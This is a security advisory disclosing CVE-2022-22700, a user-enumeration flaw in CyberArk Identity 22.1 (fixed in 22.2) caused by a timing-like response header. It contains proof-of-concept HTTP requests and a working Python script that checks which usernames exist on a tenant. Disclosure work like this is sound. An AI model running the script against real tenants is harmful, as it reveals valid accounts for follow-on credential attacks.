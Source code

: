 ```yaml
---
slug: advisories/porter/
title: CyberArk Identity 22.1 Vulnerability
authors: Andres Roldan
writer: aroldan
codename: porter
product: CyberArk Identity
date: 2022-02-15 12:00 COT
cveid: CVE-2022-22700
severity: 5.3
description: CyberArk Identity 22.1 User Enumeration
keywords: Fluid Attacks, Security, Vulnerabilities, CyberArk, Identity
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                     |
| --------------------- | --------------------------------------------------- |
| **Name**              | CyberArk Identity 22.1 User Enumeration             |
| **Code name**         | [Porter](https://en.wikipedia.org/wiki/Cole_Porter) |
| **Product**           | CyberArk Identity                                   |
| **Affected versions** | 22.1 and below                                      |
| **Fixed versions**    | 22.2                                                |
| **State**             | Public                                              |

## Vulnerability

|                       |                                                                                                 |
| --------------------- | ----------------------------------------------------------------------------------------------- |
| **Kind**              | User Enumeration                                                                                |
| **Rule**              | [225. Proper Authentication Responses](https://docs.fluidattacks.com/criteria/requirements/225) |
| **Remote**            | Yes                                                                                             |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N                                                    |
| **CVSSv3 Base Score** | 5.3                                                                                             |
| **Exploit available** | Yes                                                                                             |
| **CVE ID(s)**         | [CVE-2022-22700](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22700)                 |

## Description

CyberArk Identity versions up to and including 22.1 in the
`StartAuthentication` resource, exposes the response header `X-CFY-TX-TM`.
In certain configurations, that response header contains different, predictable
value ranges which can be used to determine wether a user exists in the tenant.

## Proof of Concept

- A request is sent with a known valid user

Request:

```json
POST /Security/StartAuthentication HTTP/1.1
Host: customer.my.idaptive.app
Content-Length: 143
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json

{"TenantId":"","User":"admin@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}
```

Response:

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json; charset=utf-8
X-CFY-TX-TM: 109
...
```

In the cases when the user exists, the value of `X-CFY-TX-TM`
is always less than `500`.

- A request is sent with a non existent user

Request:

```json
POST /Security/StartAuthentication HTTP/1.1
Host: customer.my.idaptive.app
Content-Length: 147
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Content-Type: application/json

{"TenantId":"","User":"notexists@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}
```

Response:

```json
HTTP/1.1 200 OK
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Content-Type: application/json; charset=utf-8
X-CFY-TX-TM: 1492
...
```

In the cases when the user does not exist, the value of `X-CFY-TX-TM`
is always above than `1000`.

## Exploit

The following code was used to enumerate valid users:

```python
#!/usr/bin/env python
#
# Author: aroldan@fluidattacks.com

import json
import requests
import sys

URL = 'https://<customer>.my.idaptive.app/Security/StartAuthentication'
RAW_DATA =  '{"TenantId":"","User":"test@customer.com","Version":"1.0","AssociatedEntityType":"Portal","AssociatedEntityName":"Portal","ZsoSessionId":""}'
JSON_DATA = json.loads(RAW_DATA)

with open(sys.argv[1], 'r') as fd:
    USERS = [x.rstrip() for x in fd.readlines()]

for USER in USERS:
    VALUE = 10000
    PAYLOAD = JSON_DATA
    PAYLOAD['User'] = USER
    RESP = requests.post(URL, json=PAYLOAD)
    if 'X-CFY-TX-TM' in RESP.headers:
        VALUE = int(RESP.headers['X-CFY-TX-TM'])
    if VALUE < 1000:
        print(VALUE)
        print(f'[+] User {USER} exists.')
    else:
        print(f'[-] User {USER} not exists.')
```

## Credits

The vulnerability was discovered by [Andrés
Roldán](https://www.linkedin.com/in/andres-roldan/) from the Offensive
Team of  `Fluid Attacks`.

## References

**Vendor page** <https://www.cyberark.com/resources/cyberark-identity/>

**Changelog** <https://docs.cyberark.com/Product-Doc/OnlineHelp/Idaptive/Latest/en/Content/ReleaseNotes/ReleaseNotes-Latest.htm>

## Timeline

<time-lapse
  discovered="2021-09-28"
  contacted="2022-02-05"
  replied="2022-02-16"
  confirmed=""
  patched="2022-02-28"
  disclosure="">
</time-lapse>
